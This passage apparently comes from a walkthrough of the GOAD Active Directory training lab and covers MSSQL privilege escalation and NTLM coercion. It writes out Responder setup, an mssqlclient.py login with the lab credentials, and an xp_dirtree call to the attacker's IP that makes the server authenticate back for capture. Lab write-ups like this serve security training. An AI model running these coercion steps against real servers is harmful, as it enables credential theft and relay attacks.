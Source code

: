 ![mssql_arya_db_trustworthy.png](/assets/blog/GOAD/mssql_arya_db_trustworthy.png)

- With the trustworthy property we get a shell :

![mssql_arya_execas_msdbdbo.png](/assets/blog/GOAD/mssql_arya_execas_msdbdbo.png)

### Coerce and relay

- Mssql can also be use to coerce an NTLM authentication from the mssql server. The incoming connection will be from the user who run the mssql server.
- In our case if we tale any user like hodor for example we can get an NTLM authentication
 - start responder `responder -I vboxnet0`

- Connect with hodor (0 privilèges)

```bash
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/hodor:hodor@castelblack.north.sevenkingdoms.local
```

- run a xp_dirtree command :

```sql
exec master.sys.xp_dirtree '\\192.168.56.1\demontlm',1,1
```

- And we get a connection back to our responder

![mssql_hodor_relay.png](/assets/blog/GOAD/mssql_hodor_relay.png)
